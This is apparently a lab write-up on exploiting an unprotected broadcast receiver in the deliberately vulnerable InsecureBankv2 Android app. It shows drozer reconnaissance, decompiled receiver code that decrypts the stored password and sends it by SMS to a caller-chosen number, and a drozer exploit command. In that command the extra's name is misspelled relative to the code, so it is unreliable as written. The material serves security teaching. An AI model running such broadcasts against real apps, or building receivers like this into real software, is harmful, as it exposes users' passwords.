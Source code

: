 # Exploit Broadcast Receivers

* Information Gathering

```bash
# Using drozer get the broadcast receivers informations
dz> run app.broadcast.info -a com.android.insecurebankv2 
Attempting to run shell module
Package: com.android.insecurebankv2
  com.android.insecurebankv2.MyBroadCastReceiver
    Permission: null
```

* Static Analysis `MyBroadCast` Activity

```java
package com.android.insecurebankv2;

import android.content.BroadcastReceiver;
import android.content.Context;
import android.content.Intent;
import android.content.SharedPreferences;
import android.telephony.SmsManager;
import android.util.Base64;

/* JADX WARN: Classes with same name are omitted:
  /home/sallam/Documents/Android AppSec/vulnApps/InsecureBankv2/build/apk/classes.dex
 */
/* loaded from: /tmp/jadx-4403557323843835393.dex */
public class MyBroadCastReceiver extends BroadcastReceiver {
    public static final String MYPREFS = "mySharedPreferences";
    String usernameBase64ByteString;

    @Override // android.content.BroadcastReceiver
    public void onReceive(Context context, Intent intent) {
        String phn = intent.getStringExtra("phonenumber");
        String newpass = intent.getStringExtra("newpass");
        if (phn != null) {
            try {
                SharedPreferences settings = context.getSharedPreferences("mySharedPreferences", 1);
                String username = settings.getString("EncryptedUsername", null);
                byte[] usernameBase64Byte = Base64.decode(username, 0);
                this.usernameBase64ByteString = new String(usernameBase64Byte, "UTF-8");
                String password = settings.getString("superSecurePassword", null);
                CryptoClass crypt = new CryptoClass();
                String decryptedPassword = crypt.aesDeccryptedString(password);
                String textPhoneno = phn.toString();
                String textMessage = "Updated Password from: " + decryptedPassword + " to: " + newpass;
                SmsManager smsManager = SmsManager.getDefault();
                System.out.println("For the changepassword - phonenumber: " + textPhoneno + " password is: " + textMessage);
                smsManager.sendTextMessage(textPhoneno, null, textMessage, null, null);
                return;
            } catch (Exception e) {
                e.printStackTrace();
                return;
            }
        }
        System.out.println("Phone number is null");
    }
}
```

This code defines a `BroadcastReceiver` that listens for specific intents containing a phone number and a new password. When triggered, it retrieves encrypted username and password from shared preferences, decrypts the password, and sends an SMS to the given phone number with a message about the password update. If the phone number is not provided, it logs that the phone number is null.

* Exploit send message tophone number 8888888 with new password

```bash
dz> run app.broadcast.send --action thBroadcast --extra string phonenummber 8888888 --extra string newpass Lol@88
```

<div align="center" data-full-width="true">

<figure><img src="../../.gitbook/assets/image (15) (1).png" alt=""><figcaption></figcaption></figure>

</div>

